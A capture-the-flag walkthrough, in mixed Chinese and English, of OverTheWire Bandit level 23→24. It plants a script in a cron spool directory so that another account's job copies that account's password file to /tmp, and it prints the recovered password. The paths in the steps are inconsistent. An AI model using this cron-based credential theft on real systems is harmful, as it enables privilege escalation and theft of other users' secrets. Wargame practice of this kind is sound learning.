 
- `/var/spool/cron/` 这个目录下存放的是每个用户包括root的`crontab`任务
  - 每个任务以创建者的名字命名，tom建的crontab任务文件就是/var/spool/cron/tom。
  - 一般一个用户最多只有一个crontab文件。
- 我们在`/var/spool/bandit24`目录下就可以运行`bandit24`的定时任务
- 创建一个放在改目录下的脚本就可以执行了
- `vim getpass.sh`进入vim编辑模式输入脚本
- 写入 `cat /etc/bandit_pass/bandit24 > /tmp/bandit24pass`
- `：wq`保存退出

```py
# go ahead and create a temporary directory.
bandit23@bandit:/etc/cron.d$ mkdir /tmp/grace44
bandit23@bandit:/etc/cron.d$ cd /tmp/grace44
bandit23@bandit:/tmp/grace44$ nano

# open Nano we will go ahead and write our own script to inject.

#!/bin/bash
cat /etc/bandit_pass/bandit24 > tmp/jhalon/pass      
# reading the contents of the bandit24 password file (/etc/bandit_pass/bandit24)
# and sending its output into a file that our bandit23 user account can see. (tmp/jhalon/pass)
#Save this new script as script.sh.


$ chmod 777 script.sh
# make our script executable by bandit24. 777 is excessive for permissions
# can also chmod -R 777 your tmp file in order to ls your files if you’re finding not listing your directory to be irritating.


$ cp script.sh /var/spool/bandit24
# copy script into the /var/spool/bandit24 folder.

# Give it a minute to allow the cron job to run and then cat the file you specified as output.
$ dir -a
.  ..  pass  script.sh
$ cat /tmp/jhalon/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## Bandit Level 24 → Level 25
Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.





















.
